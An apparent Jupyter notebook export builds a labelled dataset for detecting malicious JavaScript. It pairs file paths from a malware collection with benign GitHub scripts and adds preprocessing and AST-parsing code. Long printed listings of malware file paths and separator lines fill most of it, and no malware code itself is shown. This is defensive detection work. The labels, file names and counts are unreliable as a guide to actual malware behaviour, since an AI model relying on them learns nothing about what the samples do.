=========================================76793===========================================
=========================================76794===========================================
=========================================76795===========================================
=========================================76796===========================================
=========================================76797===========================================
=========================================76798===========================================
==========

=========================================76881===========================================
=========================================76882===========================================
=========================================76883===========================================
=========================================76884===========================================
=========================================76885===========================================
=========================================76886===========================================
=========================================76887===========================================
=========================================76888===========================================
=========================================76889===========================================
=========================================76890===========================================
=========================================76891===========================================
==========

=========================================76980===========================================
=========================================76981===========================================
=========================================76982===========================================
=========================================76983===========================================
=========================================76984===========================================
=========================================76985===========================================
=========================================76986===========================================
=========================================76987===========================================
=========================================76988===========================================
=========================================76989===========================================
=========================================76990===========================================
==========

=========================================77076===========================================
=========================================77077===========================================
=========================================77078===========================================
=========================================77079===========================================
=========================================77080===========================================
=========================================77081===========================================
=========================================77082===========================================
=========================================77083===========================================
=========================================77084===========================================
=========================================77085===========================================
=========================================77086===========================================
==========

=========================================77168===========================================
=========================================77169===========================================
=========================================77170===========================================
=========================================77171===========================================
=========================================77172===========================================
=========================================77173===========================================
=========================================77174===========================================
=========================================77175===========================================
=========================================77176===========================================
=========================================77177===========================================
=========================================77178===========================================
==========

=========================================77263===========================================
=========================================77264===========================================
=========================================77265===========================================
=========================================77266===========================================
=========================================77267===========================================
=========================================77268===========================================
=========================================77269===========================================
=========================================77270===========================================
=========================================77271===========================================
=========================================77272===========================================
=========================================77273===========================================
==========

=========================================77356===========================================
=========================================77357===========================================
=========================================77358===========================================
=========================================77359===========================================
=========================================77360===========================================
=========================================77361===========================================
=========================================77362===========================================
=========================================77363===========================================
=========================================77364===========================================
=========================================77365===========================================
=========================================77366===========================================
==========

=========================================77449===========================================
=========================================77450===========================================
=========================================77451===========================================
=========================================77452===========================================
=========================================77453===========================================
=========================================77454===========================================
=========================================77455===========================================
=========================================77456===========================================
=========================================77457===========================================
=========================================77458===========================================
=========================================77459===========================================
==========

=========================================77547===========================================
=========================================77548===========================================
=========================================77549===========================================
=========================================77550===========================================
=========================================77551===========================================
=========================================77552===========================================
=========================================77553===========================================
=========================================77554===========================================
=========================================77555===========================================
=========================================77556===========================================
=========================================77557===========================================
==========

=========================================77645===========================================
=========================================77646===========================================
=========================================77647===========================================
=========================================77648===========================================
=========================================77649===========================================
=========================================77650===========================================
=========================================77651===========================================
=========================================77652===========================================
=========================================77653===========================================
=========================================77654===========================================
=========================================77655===========================================
==========

=========================================77737===========================================
=========================================77738===========================================
=========================================77739===========================================
=========================================77740===========================================
=========================================77741===========================================
=========================================77742===========================================
=========================================77743===========================================
=========================================77744===========================================
=========================================77745===========================================
=========================================77746===========================================
=========================================77747===========================================
==========

=========================================77834===========================================
=========================================77835===========================================
=========================================77836===========================================
=========================================77837===========================================
=========================================77838===========================================
=========================================77839===========================================
=========================================77840===========================================
=========================================77841===========================================
=========================================77842===========================================
=========================================77843===========================================
=========================================77844===========================================
==========

=========================================77930===========================================
=========================================77931===========================================
=========================================77932===========================================
=========================================77933===========================================
=========================================77934===========================================
=========================================77935===========================================
=========================================77936===========================================
=========================================77937===========================================
=========================================77938===========================================
=========================================77939===========================================
=========================================77940===========================================
==========

=========================================78027===========================================
=========================================78028===========================================
=========================================78029===========================================
=========================================78030===========================================
=========================================78031===========================================
=========================================78032===========================================
=========================================78033===========================================
=========================================78034===========================================
=========================================78035===========================================
=========================================78036===========================================
=========================================78037===========================================
==========

=========================================78127===========================================
=========================================78128===========================================
=========================================78129===========================================
=========================================78130===========================================
=========================================78131===========================================
=========================================78132===========================================
=========================================78133===========================================
=========================================78134===========================================
=========================================78135===========================================
=========================================78136===========================================
=========================================78137===========================================
==========

=========================================78225===========================================
=========================================78226===========================================
=========================================78227===========================================
=========================================78228===========================================
=========================================78229===========================================
=========================================78230===========================================
=========================================78231===========================================
=========================================78232===========================================
=========================================78233===========================================
=========================================78234===========================================
=========================================78235===========================================
==========

=========================================78319===========================================
=========================================78320===========================================
=========================================78321===========================================
=========================================78322===========================================
=========================================78323===========================================
=========================================78324===========================================
=========================================78325===========================================
=========================================78326===========================================
=========================================78327===========================================
=========================================78328===========================================
=========================================78329===========================================
==========

=========================================78413===========================================
=========================================78414===========================================
=========================================78415===========================================
=========================================78416===========================================
=========================================78417===========================================
=========================================78418===========================================
=========================================78419===========================================
=========================================78420===========================================
=========================================78421===========================================
=========================================78422===========================================
=========================================78423===========================================
==========

=========================================78508===========================================
=========================================78509===========================================
=========================================78510===========================================
=========================================78511===========================================
=========================================78512===========================================
=========================================78513===========================================
=========================================78514===========================================
=========================================78515===========================================
=========================================78516===========================================
=========================================78517===========================================
=========================================78518===========================================
==========

=========================================78602===========================================
=========================================78603===========================================
=========================================78604===========================================
=========================================78605===========================================
=========================================78606===========================================
=========================================78607===========================================
=========================================78608===========================================
=========================================78609===========================================
=========================================78610===========================================
=========================================78611===========================================
=========================================78612===========================================
==========

=========================================78697===========================================
=========================================78698===========================================
=========================================78699===========================================
=========================================78700===========================================
=========================================78701===========================================
=========================================78702===========================================
=========================================78703===========================================
=========================================78704===========================================
=========================================78705===========================================
=========================================78706===========================================
=========================================78707===========================================
==========

=========================================78791===========================================
=========================================78792===========================================
=========================================78793===========================================
=========================================78794===========================================
=========================================78795===========================================
=========================================78796===========================================
=========================================78797===========================================
=========================================78798===========================================
=========================================78799===========================================
=========================================78800===========================================
=========================================78801===========================================
==========

=========================================78884===========================================
=========================================78885===========================================
=========================================78886===========================================
=========================================78887===========================================
=========================================78888===========================================
=========================================78889===========================================
=========================================78890===========================================
=========================================78891===========================================
=========================================78892===========================================
=========================================78893===========================================
=========================================78894===========================================
==========

=========================================78976===========================================
=========================================78977===========================================
=========================================78978===========================================
=========================================78979===========================================
=========================================78980===========================================
=========================================78981===========================================
=========================================78982===========================================
=========================================78983===========================================
=========================================78984===========================================
=========================================78985===========================================
=========================================78986===========================================
==========

=========================================79161===========================================
=========================================79162===========================================
=========================================79163===========================================
=========================================79164===========================================
=========================================79165===========================================
=========================================79166===========================================
=========================================79167===========================================
=========================================79168===========================================
=========================================79169===========================================
=========================================79170===========================================
=========================================79171===========================================
==========

=========================================79251===========================================
=========================================79252===========================================
=========================================79253===========================================
=========================================79254===========================================
=========================================79255===========================================
=========================================79256===========================================
=========================================79257===========================================
=========================================79258===========================================
=========================================79259===========================================
=========================================79260===========================================
javascript-malware-collection-master\2017\20170123\20170123_c498cb13cc8f20e52c99f5d83803537b.js
====

=========================================79342===========================================
=========================================79343===========================================
=========================================79344===========================================
=========================================79345===========================================
=========================================79346===========================================
=========================================79347===========================================
=========================================79348===========================================
=========================================79349===========================================
=========================================79350===========================================
=========================================79351===========================================
=========================================79352===========================================
==========

In [7]:
len(list_X_train)

69514

In [8]:
len(list_y_train)

69514

In [9]:
df = pd.DataFrame(columns=["Script","Label"])

In [10]:
df['Script'] = list_X_train
df['Label'] = list_y_train

In [11]:
# df_1 = df.sample(40000)

In [12]:
def rew(path):
    return path.replace("/","\\")

In [13]:
# df_1['ScriptPath'] = df_1['ScriptPath'].apply(rew)

In [14]:
# df_1.to_csv("G:\JSContanaDataSet\XSS_dataset_esprima.csv", index=False)

In [17]:
df.to_csv("E:\XSS_dataset_esprima.csv", index=False)

In [18]:
df[df['Label']==0].shape

(37197, 2)

In [19]:
df[df['Label']==1].shape

(32317, 2)

In [56]:
def lowering_remove_url_ip_(path):
    try:
        with open(os.path.join('G:\JSContanaDataSet',path), 'r', encoding='utf-8') as js_file:
            script = js_file.read()
            script = re.sub(r'\w+:\/{2}[\d\w-]+(\.[\d\w-]+)*(?:(?:\/[^\s/]*))*', '', script)
            script = re.sub(r'((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)', '', script)
            script = re.sub(r"(/\*([^*]|[\r\n]|(\*+([^*/]|[\r\n])))*\*+/)|(//.*)",'',script)
            script = script.lower()
        return script
    except:
        pass
    return None

In [57]:
def rew(path):
    return path.replace("/","\\")

In [58]:
df_1['ScriptPath'] = df_1['ScriptPath'].apply(rew)

In [ ]:
df_1['ScriptPath'] = df_1['ScriptPath'].apply(lowering_remove_url_ip_)

In [ ]:
df_1['ScriptPath'] = df_1['ScriptPath'].apply(sequence_of_syntax_units)

In [ ]:
df_1.head()

In [ ]:
dff_1 = df_1[df_1['ScriptPath']!=None]

In [ ]:
dff_1.head()

In [6]:
my_df = pd.read_csv("G:\JSContanaDataSet\programs_testing.csv")
my_df.head(2)

,ScriptName,Label
0,javascript-malware-collection-master\1936\1936...,0
1,javascript-malware-collection-master\1936\1936...,0


In [7]:
my_df.shape

(39425, 2)

In [22]:
my_df['Label']=1

In [23]:
my_df = my_df.rename(columns={"ScriptName": "ScriptPath", "Label": "Label"})

In [24]:
my_df.to_csv('G:/JSContanaDataSet/data_with_attack.csv',index=False)

In [14]:
my_df1 = pd.read_csv("G:\JSContanaDataSet\script_path_data.csv")
my_df1.head(2)

,ScriptPath,Label
0,data/mozilla/rhino/testsrc/tests/js1_8/extensi...,0
1,data/hexojs/hexo/lib/extend/migrator.js,1


In [15]:
my_df1.shape

(94665, 2)

In [20]:
my_df1['Label']=0

In [21]:
my_df1.head()

,ScriptPath,Label
0,data/mozilla/rhino/testsrc/tests/js1_8/extensi...,0
1,data/hexojs/hexo/lib/extend/migrator.js,0
2,data/studio107/meditor/vendors/ckeditor/plugin...,0
3,data/clemens-tolboom/drupal-8-rest-angularjs/a...,0
4,data/SchizoDuckie/DuckieTV/_locales/angular-lo...,0


In [26]:
my_df1.to_csv("G:\JSContanaDataSet\data_without_attack.csv",index=False)

In [27]:
df = pd.read_csv("G:\JSContanaDataSet\data_without_attack.csv")

In [29]:
ddf = pd.read_csv("G:\JSContanaDataSet\data_with_attack.csv")

(94665, 2)

In [30]:
ddf.head()

,ScriptPath,Label
0,javascript-malware-collection-master\1936\1936...,1
1,javascript-malware-collection-master\1936\1936...,1
2,javascript-malware-collection-master\1936\1936...,1
3,javascript-malware-collection-master\1936\1936...,1
4,javascript-malware-collection-master\1936\1936...,1


In [38]:
df = df.sample(40000)
frames = [df, ddf]
result = pd.concat(frames)
result.to_csv('G:/JSContanaDataSet/XSS_dataset.csv',index=False)

In [31]:
frames = [df, ddf]
result = pd.concat(frames)

In [35]:
result.to_csv('G:/JSContanaDataSet/XSS_dataset.csv',index=False)

In [ ]:
df = df.sample(frac = 1)
df.to_csv('/content/drive/MyDrive/Colab Notebooks/XSS_dataset.csv',index=False)

In [2]:
# convert java script code to the abstract syntax tree
# then extract the sequences of syntax units with detailed information
def sequence_of_syntax_units(scripts):
    """
    sctipts : list or single javascript code 
    return sequence of syntax units
    each syntax unit correspond to line in an abstract syntax tree
    """
    if type(scripts) is list:
        # esp.parseScript(script) returns abstract syntax tree of each js scripts
        return [re.sub('\s+', ' ', ''.join(str(esp.parseScript(script)).split('\n'))) for script in scripts]
    elif type(scripts) is str:
        return re.sub('\s+', ' ', ''.join(str(esp.parseScript(scripts)).split('\n')))
    else:
        raise ValueError('The type of scripts parameter must be {list or string}')

In [3]:
from owlready2 import *
import os
path = "G:\JSContanaDataSet\javascript-malware-collection-master"
os.chdir(path)
ListOfD = os.listdir()

In [4]:
ListOfD

['1936', '2015', '2016', '2017', '2019', 'README.md']

In [5]:
de = []
for directory in ListOfD:
    print("***************************************************************************************************************")
    if not ("." in directory):
        mypath = os.path.join(path,directory)
        mypath1 = os.path.join("javascript-malware-collection-master",directory)
        os.chdir(mypath)
        for d in os.listdir():
            print("===============================================")
            my_path = os.path.join(mypath,d)
            my_path1 = os.path.join(mypath1,d)
#             print(my_path)
            if not ("." in d):
                os.chdir(my_path)
                for j in os.listdir():
                    print("----------------------------------")
                    print(os.path.join(my_path1,j))
                    print(os.path.join(my_path,j))
                    if (".js") in j:
                        print("add")
                        de.append(os.path.join(my_path1,j))

***************************************************************************************************************
----------------------------------
javascript-malware-collection-master\1936\19360611\19360611_23f5eaf84cedb0998e31b34a5f81e4ef.js
G:\JSContanaDataSet\javascript-malware-collection-master\1936\19360611\19360611_23f5eaf84cedb0998e31b34a5f81e4ef.js
add
----------------------------------
javascript-malware-collection-master\1936\19360616\19360616_5e841d55a1141a97c11c9975bdbe7d38.js
G:\JSContanaDataSet\javascript-malware-collection-master\1936\19360616\19360616_5e841d55a1141a97c11c9975bdbe7d38.js
add
----------------------------------
javascript-malware-collection-master\1936\19360630\19360630_3aaaa12047363293f30cb7bf787a7f07.js
G:\JSContanaDataSet\javascript-malware-collection-master\1936\19360630\19360630_3aaaa12047363293f30cb7bf787a7f07.js
add
----------------------------------
javascript-malware-collection-master\1936\19360701\19360701_13d0fc4e5e75d0b28010330002c4f19b.js
G:\J

----------------------------------
javascript-malware-collection-master\2015\20151211\20151211_08835639434cc879b4ebbfe62392e4de.js
G:\JSContanaDataSet\javascript-malware-collection-master\2015\20151211\20151211_08835639434cc879b4ebbfe62392e4de.js
add
----------------------------------
javascript-malware-collection-master\2015\20151211\20151211_0c3292f00fb0702f1bc993e154cd05f0.js
G:\JSContanaDataSet\javascript-malware-collection-master\2015\20151211\20151211_0c3292f00fb0702f1bc993e154cd05f0.js
add
----------------------------------
javascript-malware-collection-master\2015\20151211\20151211_11ebc9aa9d64aa23eaf3b49aa602cb6f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2015\20151211\20151211_11ebc9aa9d64aa23eaf3b49aa602cb6f.js
add
----------------------------------
javascript-malware-collection-master\2015\20151211\20151211_143b34a2917bc86fcc896ebe75053861.js
G:\JSContanaDataSet\javascript-malware-collection-master\2015\20151211\20151211_143b34a2917bc86fcc896ebe75053861.js


----------------------------------
javascript-malware-collection-master\2016\20160204\20160204_25ac5728f42f0d4d4232bffe0d7c5ddb.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160204\20160204_25ac5728f42f0d4d4232bffe0d7c5ddb.js
add
----------------------------------
javascript-malware-collection-master\2016\20160204\20160204_31c9f5bb719b7e5cde0cf6a96668c367.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160204\20160204_31c9f5bb719b7e5cde0cf6a96668c367.js
add
----------------------------------
javascript-malware-collection-master\2016\20160208\20160208_977c06db733bb17b3d003f06ac0a5234.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160208\20160208_977c06db733bb17b3d003f06ac0a5234.js
add
----------------------------------
javascript-malware-collection-master\2016\20160208\20160208_9d9dc4f3a2923b663ebcb89bdf4f8d16.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160208\20160208_9d9dc4f3a2923b663ebcb89bdf4f8d16.js


----------------------------------
javascript-malware-collection-master\2016\20160307\20160307_1b00c9044b787007f05a952f00f90b51.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160307\20160307_1b00c9044b787007f05a952f00f90b51.js
add
----------------------------------
javascript-malware-collection-master\2016\20160307\20160307_1b656eb3e734af9072bf013a39883bc4.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160307\20160307_1b656eb3e734af9072bf013a39883bc4.js
add
----------------------------------
javascript-malware-collection-master\2016\20160307\20160307_1c9800f3abda50f6d14d0e00a0fdfe16.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160307\20160307_1c9800f3abda50f6d14d0e00a0fdfe16.js
add
----------------------------------
javascript-malware-collection-master\2016\20160307\20160307_1c9e84ded12cf511d17026690dc632b4.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160307\20160307_1c9e84ded12cf511d17026690dc632b4.js


----------------------------------
javascript-malware-collection-master\2016\20160308\20160308_8437bc01ba20aa98b35e778cca1c0f40.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160308\20160308_8437bc01ba20aa98b35e778cca1c0f40.js
add
----------------------------------
javascript-malware-collection-master\2016\20160308\20160308_846ffd018c74068606e796a9c6e91ff6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160308\20160308_846ffd018c74068606e796a9c6e91ff6.js
add
----------------------------------
javascript-malware-collection-master\2016\20160308\20160308_84a58de5430548bf06bde0521b7bf00f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160308\20160308_84a58de5430548bf06bde0521b7bf00f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160308\20160308_8655ce1f7d676003a1a3d312b01ba3e6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160308\20160308_8655ce1f7d676003a1a3d312b01ba3e6.js


----------------------------------
javascript-malware-collection-master\2016\20160309\20160309_c1a8671750e53040cba93d56d33c3029.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160309\20160309_c1a8671750e53040cba93d56d33c3029.js
add
----------------------------------
javascript-malware-collection-master\2016\20160309\20160309_c1e1d2969b1a7e7bac4c725efb07e01e.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160309\20160309_c1e1d2969b1a7e7bac4c725efb07e01e.js
add
----------------------------------
javascript-malware-collection-master\2016\20160309\20160309_c26accc02696b5a632a48a5c3d85fe3b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160309\20160309_c26accc02696b5a632a48a5c3d85fe3b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160309\20160309_c2d09b974500f72bf404bf01c3d43d14.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160309\20160309_c2d09b974500f72bf404bf01c3d43d14.js


add
----------------------------------
javascript-malware-collection-master\2016\20160311\20160311_c9361bc6d2c4738f86e9fb94b86a057f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160311\20160311_c9361bc6d2c4738f86e9fb94b86a057f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160311\20160311_c94d0f55e559d6e2f93e81f0a71979cf.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160311\20160311_c94d0f55e559d6e2f93e81f0a71979cf.js
add
----------------------------------
javascript-malware-collection-master\2016\20160311\20160311_ca8d84299bb3dc10bf60ec125dc91970.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160311\20160311_ca8d84299bb3dc10bf60ec125dc91970.js
add
----------------------------------
javascript-malware-collection-master\2016\20160311\20160311_cad50fb0697c2c0438f5d16641fc15ab.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160311\20160311_cad50fb0697c2c0438f5d16641fc15ab

----------------------------------
javascript-malware-collection-master\2016\20160316\20160316_0300d5d18384a443cfd5d36af453c94b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160316\20160316_0300d5d18384a443cfd5d36af453c94b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160316\20160316_0528ee8e6cfc2957ed87408f2a26ad09.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160316\20160316_0528ee8e6cfc2957ed87408f2a26ad09.js
add
----------------------------------
javascript-malware-collection-master\2016\20160316\20160316_054d98b277925dea5b096740e0740f0f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160316\20160316_054d98b277925dea5b096740e0740f0f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160316\20160316_05b11a10920f1f48c35ee04b0dba1ab9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160316\20160316_05b11a10920f1f48c35ee04b0dba1ab9.js


add
----------------------------------
javascript-malware-collection-master\2016\20160321\20160321_71f4f0c747d1d17477730e4b8df62502.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160321\20160321_71f4f0c747d1d17477730e4b8df62502.js
add
----------------------------------
javascript-malware-collection-master\2016\20160321\20160321_72e8069b5662778704dae6077f067e0e.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160321\20160321_72e8069b5662778704dae6077f067e0e.js
add
----------------------------------
javascript-malware-collection-master\2016\20160321\20160321_731e5de5d4fcdff0fe915232955b51d7.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160321\20160321_731e5de5d4fcdff0fe915232955b51d7.js
add
----------------------------------
javascript-malware-collection-master\2016\20160321\20160321_738a8d0bb4e0ef1068c4e9fa9f3d696a.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160321\20160321_738a8d0bb4e0ef1068c4e9fa9f3d696a

add
----------------------------------
javascript-malware-collection-master\2016\20160324\20160324_83d84e4dd6e5b6439c9677a60c3e0231.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160324\20160324_83d84e4dd6e5b6439c9677a60c3e0231.js
add
----------------------------------
javascript-malware-collection-master\2016\20160324\20160324_83e09710f19dcb251848d6fe1a4025b9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160324\20160324_83e09710f19dcb251848d6fe1a4025b9.js
add
----------------------------------
javascript-malware-collection-master\2016\20160324\20160324_84deac3e89c58e6cb9fc81d00c0ac998.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160324\20160324_84deac3e89c58e6cb9fc81d00c0ac998.js
add
----------------------------------
javascript-malware-collection-master\2016\20160324\20160324_85b7c2ebd50c2df2cf2a4cd4fc8abb52.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160324\20160324_85b7c2ebd50c2df2cf2a4cd4fc8abb52

add
----------------------------------
javascript-malware-collection-master\2016\20160328\20160328_845203f725acda4c2b6889fc14d7f5fb.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160328\20160328_845203f725acda4c2b6889fc14d7f5fb.js
add
----------------------------------
javascript-malware-collection-master\2016\20160328\20160328_8831580c1c850f38a4be7577bc087709.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160328\20160328_8831580c1c850f38a4be7577bc087709.js
add
----------------------------------
javascript-malware-collection-master\2016\20160328\20160328_888dd7dc8e5f6109255f5b4d019aa1a2.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160328\20160328_888dd7dc8e5f6109255f5b4d019aa1a2.js
add
----------------------------------
javascript-malware-collection-master\2016\20160328\20160328_890e41986ff1eecd08d8a23c126dac44.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160328\20160328_890e41986ff1eecd08d8a23c126dac44

----------------------------------
javascript-malware-collection-master\2016\20160329\20160329_492b1134ce9f774d660282ee2722f98c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160329\20160329_492b1134ce9f774d660282ee2722f98c.js
add
----------------------------------
javascript-malware-collection-master\2016\20160329\20160329_4950fd6bdd45fea39cea5474b479c733.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160329\20160329_4950fd6bdd45fea39cea5474b479c733.js
add
----------------------------------
javascript-malware-collection-master\2016\20160329\20160329_4a33107f04439b6ec2459e10632a4b42.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160329\20160329_4a33107f04439b6ec2459e10632a4b42.js
add
----------------------------------
javascript-malware-collection-master\2016\20160329\20160329_4ab02eb1bbff305eb4bcf5b1525f9d44.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160329\20160329_4ab02eb1bbff305eb4bcf5b1525f9d44.js


add
----------------------------------
javascript-malware-collection-master\2016\20160330\20160330_9231f5dd7e927e7af4bf20df5dc3d791.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160330\20160330_9231f5dd7e927e7af4bf20df5dc3d791.js
add
----------------------------------
javascript-malware-collection-master\2016\20160330\20160330_9289961cf3e8c6b58fefd8a45e921989.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160330\20160330_9289961cf3e8c6b58fefd8a45e921989.js
add
----------------------------------
javascript-malware-collection-master\2016\20160330\20160330_92bd2881739e55dee6566eb960d1a6e2.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160330\20160330_92bd2881739e55dee6566eb960d1a6e2.js
add
----------------------------------
javascript-malware-collection-master\2016\20160330\20160330_92f4fba98eeb2d489af820c0aabfa9f8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160330\20160330_92f4fba98eeb2d489af820c0aabfa9f8

----------------------------------
javascript-malware-collection-master\2016\20160401\20160401_c97d496a71397819a0e5b06824fef071.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160401\20160401_c97d496a71397819a0e5b06824fef071.js
add
----------------------------------
javascript-malware-collection-master\2016\20160401\20160401_c98eabffb986c78b30a6caf359cdfb61.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160401\20160401_c98eabffb986c78b30a6caf359cdfb61.js
add
----------------------------------
javascript-malware-collection-master\2016\20160401\20160401_c9bce9d424d34eb0897aebdf551d42aa.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160401\20160401_c9bce9d424d34eb0897aebdf551d42aa.js
add
----------------------------------
javascript-malware-collection-master\2016\20160401\20160401_cbd7b96fa24e7f45a15a81e554ca8aab.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160401\20160401_cbd7b96fa24e7f45a15a81e554ca8aab.js


add
----------------------------------
javascript-malware-collection-master\2016\20160427\20160427_4944ae332825d6c2cc186856f6d8f442.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160427\20160427_4944ae332825d6c2cc186856f6d8f442.js
add
----------------------------------
javascript-malware-collection-master\2016\20160427\20160427_495f4c1e59d75ad73b29aa0b89038b46.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160427\20160427_495f4c1e59d75ad73b29aa0b89038b46.js
add
----------------------------------
javascript-malware-collection-master\2016\20160427\20160427_4986524f3d80eacfa2217f48b89136b5.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160427\20160427_4986524f3d80eacfa2217f48b89136b5.js
add
----------------------------------
javascript-malware-collection-master\2016\20160427\20160427_4b9095ac5fde7ab09c9d59122491ab69.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160427\20160427_4b9095ac5fde7ab09c9d59122491ab69

G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160428\20160428_d307d40c2ff85481155ba09eacd42829.js
add
----------------------------------
javascript-malware-collection-master\2016\20160428\20160428_d3957a317c6f0a5205769fb6cc828627.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160428\20160428_d3957a317c6f0a5205769fb6cc828627.js
add
----------------------------------
javascript-malware-collection-master\2016\20160428\20160428_d46529ab5ce93590199e4396f931257b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160428\20160428_d46529ab5ce93590199e4396f931257b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160428\20160428_d4a07f3e2affd5010e951018fb8071b6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160428\20160428_d4a07f3e2affd5010e951018fb8071b6.js
add
----------------------------------
javascript-malware-collection-master\2016\20160428\20160428_d6883e1f2a0c9a555341c19c55a8805d

----------------------------------
javascript-malware-collection-master\2016\20160503\20160503_d41970abf04257303f96dee6418f92b0.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160503\20160503_d41970abf04257303f96dee6418f92b0.js
add
----------------------------------
javascript-malware-collection-master\2016\20160503\20160503_d44be09a502fb2b7ca8640ee1384ec29.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160503\20160503_d44be09a502fb2b7ca8640ee1384ec29.js
add
----------------------------------
javascript-malware-collection-master\2016\20160503\20160503_d4bf524c45c3f671b178d19d6e926c48.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160503\20160503_d4bf524c45c3f671b178d19d6e926c48.js
add
----------------------------------
javascript-malware-collection-master\2016\20160503\20160503_d502b7b9569d0719eef218eb48306a8f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160503\20160503_d502b7b9569d0719eef218eb48306a8f.js


add
----------------------------------
javascript-malware-collection-master\2016\20160504\20160504_dd555c8d43901113c2ff447366e922d2.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160504\20160504_dd555c8d43901113c2ff447366e922d2.js
add
----------------------------------
javascript-malware-collection-master\2016\20160504\20160504_de59ff413673fed1f9794fadd3c489ff.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160504\20160504_de59ff413673fed1f9794fadd3c489ff.js
add
----------------------------------
javascript-malware-collection-master\2016\20160504\20160504_de6b575b4dc35fe5f3b9e7c411298a65.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160504\20160504_de6b575b4dc35fe5f3b9e7c411298a65.js
add
----------------------------------
javascript-malware-collection-master\2016\20160504\20160504_ded370c10f6927cfa490bfe9f1d147cf.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160504\20160504_ded370c10f6927cfa490bfe9f1d147cf

javascript-malware-collection-master\2016\20160507\20160507_4642e90c6669ebc5cefc1ac58aa74dba.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160507\20160507_4642e90c6669ebc5cefc1ac58aa74dba.js
add
----------------------------------
javascript-malware-collection-master\2016\20160507\20160507_5df93a0f2a2502b459e8bb13514ea6b7.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160507\20160507_5df93a0f2a2502b459e8bb13514ea6b7.js
add
----------------------------------
javascript-malware-collection-master\2016\20160507\20160507_62b7f8fc0bcf77cb8e3aeadb6958183b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160507\20160507_62b7f8fc0bcf77cb8e3aeadb6958183b.js
add
----------------------------------
javascript-malware-collection-master\2016\20160507\20160507_6c955948172cc39bb08aa09065158e19.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160507\20160507_6c955948172cc39bb08aa09065158e19.js
add
-------------------------------

add
----------------------------------
javascript-malware-collection-master\2016\20160511\20160511_15aa4c2a7161723ffe99565a845a65ef.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160511\20160511_15aa4c2a7161723ffe99565a845a65ef.js
add
----------------------------------
javascript-malware-collection-master\2016\20160511\20160511_160c080c58efaa91904461b790a54f8c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160511\20160511_160c080c58efaa91904461b790a54f8c.js
add
----------------------------------
